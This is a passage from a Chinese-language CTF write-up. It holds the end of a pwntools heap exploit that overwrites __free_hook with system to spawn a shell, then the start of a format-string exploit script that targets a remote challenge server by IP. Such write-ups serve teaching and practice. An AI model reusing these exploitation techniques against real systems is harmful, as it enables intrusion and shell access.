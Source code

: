 ```py
        p = process(["qemu-arm", "-g", "1234", "-L", "/usr/arm-linux-gnueabihf", "./pwn"])
        libc = ELF('/usr/arm-linux-gnueabihf/lib/libc.so.6')
        sleep(1)
    name_lis = 0x21068
    pause()
    p.sendlineafter("Tell me your name:",p32(0x21)*8)
    add(p,0xa0,'012345678')
    add(p,0x18,'1')
    add(p,0x18,'2')
    add(p,0x18,'/bin/sh\x00')
    delete(p,0)
    #gdb.attach(p)
    show(p,0)
    libc_base = u32(p.recv(4)) - 0xe87cc
    log.success("libc base => " + hex(libc_base))

    free_addr = libc_base + libc.sym['__free_hook']
    system_addr = libc_base + libc.sym['system']
    #get shell
    delete(p,1)

    edit(p,1,p32(name_lis+0x18))
    add(p,0x18,'4')


    payload = p32(0)*2+p32(free_addr)
    add(p,0x18,payload)

    edit(p,2,p32(system_addr))
    delete(p,3)
    p.interactive()
    p.close()


if __name__ == "__main__":
    pwn()

```

### format

#### 程序分析

似乎也没什么说的，嵌套了好几层函数，我的exp是改的`one_gadget`本地通了数据太多远程挂了，后来发现有后门，就更简单了，队友出了也懒得改了。

#### exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='i386',os='linux',log_level='info')
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./chall')
gadgets = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6]
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:

    p = process('./chall')
else:
    p = remote('119.3.172.70',10005)

def MyPrint(payload):
    p.recvuntil("...")
```